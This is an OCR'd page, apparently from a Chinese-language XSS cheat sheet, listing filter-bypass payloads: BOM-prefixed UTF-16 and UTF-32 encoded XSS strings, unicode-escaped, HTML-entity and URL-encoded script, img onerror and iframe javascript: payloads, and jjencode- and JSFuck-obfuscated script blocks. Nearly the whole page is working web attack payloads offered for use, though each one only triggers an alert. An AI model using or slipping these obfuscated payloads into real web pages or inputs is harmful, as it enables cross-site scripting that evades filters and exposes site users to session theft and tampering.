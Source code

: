   ##### 使用 BOM 绕过
  	字节顺序标记（页面必须以 BOM 字符开头。） BOM 字符允许您覆盖页面的字符集
	BOM Character for UTF-16 Encoding:
	Big Endian : 0xFE 0xFF
	Little Endian : 0xFF 0xFE
	XSS : %fe%ff%00%3C%00s%00v%00g%00/%00o%00n%00l%00o%00a%00d%00=%00a%00l%00e%00r%00t%00(%00)%00%3E

	BOM Character for UTF-32 Encoding:
	Big Endian : 0x00 0x00 0xFE 0xFF
	Little Endian : 0xFF 0xFE 0x00 0x00
	XSS : %00%00%fe%ff%00%00%00%3C%00%00%00s%00%00%00v%00%00%00g%00%00%00/%00%00%00o%00%00%00n%00%00%00l%00%00%00o%00%00%00a%00%00%00d%00%00%00=%00%00%00a%00%00%00l%00%00%00e%00%00%00r%00%00%00t%00%00%00(%00%00%00)%00%00%00%3E
  ##### 奇怪的编码
  	<script>\u0061\u006C\u0065\u0072\u0074(1)</script>
	<img src="1" onerror="&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;" />
	<iframe src="javascript:%61%6c%65%72%74%28%31%29"></iframe>
	<script>$=~[];$={___:++$,$$$$:(![]+"")[$],__$:++$,$_$_:(![]+"")[$],_$_:++$,$_$$:({}+"")[$],$$_$:($[$]+"")[$],_$$:++$,$$$_:(!""+"")[$],$__:++$,$_$:++$,$$__:({}+"")[$],$$_:++$,$$$:++$,$___:++$,$__$:++$};$.$_=($.$_=$+"")[$.$_$]+($._$=$.$_[$.__$])+($.$$=($.$+"")[$.__$])+((!$)+"")[$._$$]+($.__=$.$_[$.$$_])+($.$=(!""+"")[$.__$])+($._=(!""+"")[$._$_])+$.$_[$.$_$]+$.__+$._$+$.$;$.$$=$.$+(!""+"")[$._$$]+$.__+$._+$.$+$.$$;$.$=($.___)[$.$_][$.$_];$.$($.$($.$$+"\""+$.$_$_+(![]+"")[$._$_]+$.$$$_+"\\"+$.__$+$.$$_+$._$_+$.__+"("+$.___+")"+"\"")())();</script>
	<script>(+[])[([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+([][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[[+!+[]]+[!+[]+!+[]+!+[]+!+[]]]+[+[]]+([][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!+[]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!+[]+[])[+[]]+(!+[]+[])[!+[]+!+[]+!+[]]+(!+[]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[[+!+[]]+[!+[]+!+[]+!+[]+!+[]+!+[]]])()</script>
  ##### jsfuck
  	http://www.jsfuck.com/